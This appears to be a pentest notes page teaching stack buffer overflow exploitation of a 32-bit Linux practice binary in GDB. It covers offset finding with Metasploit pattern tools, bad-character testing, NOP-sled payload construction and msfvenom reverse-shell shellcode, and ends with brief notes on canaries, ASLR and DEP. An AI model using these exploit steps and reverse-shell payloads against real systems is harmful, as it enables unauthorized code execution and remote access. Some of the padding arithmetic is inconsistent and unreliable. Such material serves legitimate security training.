 # 📦 Buffer Overflow (BOF)

{% hint style="info" %}
Buffer overflow is an **anomaly** that occurs when **software writing data to a buffer overflows the buffer’s capacity**, resulting in **adjacent memory locations being overwritten**.&#x20;

_In other words, too much information is being passed into a container that does not have enough space, and that information ends up replacing data in adjacent containers._

Buffer overflows can be exploited by attackers with a goal of modifying a computer’s memory in order to undermine or take control of program execution.
{% endhint %}

![BOF](<../.gitbook/assets/image (63).png>)

### Check file type

```bash
file bow32 | tr "," "\n"
```

***

### How to attack ?

![](<../.gitbook/assets/image (39).png>)

#### 1 : Testing the Crash

![](<../.gitbook/assets/image (114).png>)

```bash
#Python command to BOF
run $(python -c "print '\x55' * 1200")

#To confirm the exact number of Bytes needed 
info registers eip
```

#### 2 : Finding the EIP Offset

![](<../.gitbook/assets/image (13).png>)

```bash
# Generate a more precise pattern
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txt

# Run the pattern using python
run $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'") 

# Locate the exact memory address where the BOF occurs
info registers eip

# Use the memory address to calculate the offset
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569
```



![](<../.gitbook/assets/image (146).png>)

#### 3 : Finding Shellcode Space : General

```bash
# Calculate the required padding for the payload
run $(python -c "print '\x55' * 1036 + '\x66' * 4")
```

#### 4 : First Stage Payload

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=31337 --platform linux --arch x86 --format c
```

#### 5 : Finding Shellcode Space : Garbage + NOPs + Payload + EIP

![](<../.gitbook/assets/image (2).png>)

```bash
    # Pre-final padding (Garbage - NOPs - Payload - EIP)
    Buffer = "\x55" * (1040 - 100 - 150 - 4) = 786
    NOPs = "\x90" * 100
    Shellcode = "\x44" * 150
    EIP = "\x66" * 4'
```

```bash
# Pre-final BOF Exploit
# Must check for Bad Chars before executing
run $(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')
```

![](<../.gitbook/assets/image (116).png>)

#### 6 : Testing for Bad Chars

⚠️ **FACULTATIVE**, BUT... MUST CHECK WHEN USING **ONLINE SHELLCODES** ⚠️

```bash
    # Most Bad Chars
    \x00 - Null Byte
    \x0A - Line Feed
    \x0D - Carriage Return
    \xFF - Form Feed
    \x09
    \x20
```

### How to find bad Chars

```bash
CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

```bash
    ## Padding to check Bad Chars
    Buffer = "\x55" * (1040 - 256 - 4) = 780
    CHARS = "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfd\xfe\xff"
    EIP = "\x66" * 4
```

```bash
# Prep for testing Bad Chars
disas main
break bowfunc 
```

```bash
# Run Python script
run $(python -c 'print "\x55" * (1040 - 256 - 4) + "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
```

```bash
# Check for memory in break for \x00 (Must follow the $CHAR pattern)
x/2000xb $esp+500
# Check image below
```

![](<../.gitbook/assets/image (18).png>)

#### 1 : Final Stage Payload

```bash
msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode
```

#### 2 : Finding JMP EIP

```bash
   # Enter the payload
   # Next focus on the placement of EIP (return address)
   Buffer = "\x55" * (1040 - 124 - 95 - 4) = 817
   NOPs = "\x90" * 124
   Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2"
   EIP = "\x66" * 4'
```

```bash
# Python command to locate EIP
run $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')
```

![](<../.gitbook/assets/image (9).png>)

⚡ **Choose an address to which we refer the EIP and which reads and executes one byte after the other starting at this address.**

![](<../.gitbook/assets/image (40).png>)

#### 🚨 **Execute the Payload | Rain Hell on 'em** 🚨

```bash
   # 🚨 NOTE!! Payload must be run outside GDB, Duhh!! 🚨
   # Final Padding
   Buffer = "\x55" * (1040 - 124 - 95 - 4) = 841
   NOPs = "\x90" * 124
   Shellcode = "\xda\xca\xba\xe4\x11\xd4...<SNIP>...\x5a\x22\xa2"
   EIP = "\x4c\xd6\xff\xff"
```



### GDB Syntax

```bash
set disassembly-flavor intel

disassemble main

disas bowfunc

info registers 

info registers eip
i r $eip
```

![](<../.gitbook/assets/image (36).png>)

![](<../.gitbook/assets/image (81).png>)

![](<../.gitbook/assets/image (74).png>)

### How to protect ?

* **Canaries** The canaries are known values written to the stack between buffer and control data to detect buffer overflows. The principle is that in case of a buffer overflow, the canary would be overwritten first and that the operating system checks during runtime that the canary is present and unaltered.
* **Address Space Layout Randomization (ASLR)** Address Space Layout Randomization (ASLR) is a security mechanism against buffer overflows. It makes some types of attacks more difficult by making it difficult to find target addresses in memory. The operating system uses ASLR to hide the relevant memory addresses from us. So the addresses need to be guessed, where a wrong address most likely causes a crash of the program, and accordingly, only one attempt exists.
* **Data Execution Prevention (DEP)** DEP is a security feature available in Windows XP, and later with Service Pack 2 (SP2) and above, programs are monitored during execution to ensure that they access memory areas cleanly. DEP terminates the program if a program attempts to call or access the program code in an unauthorized manner.

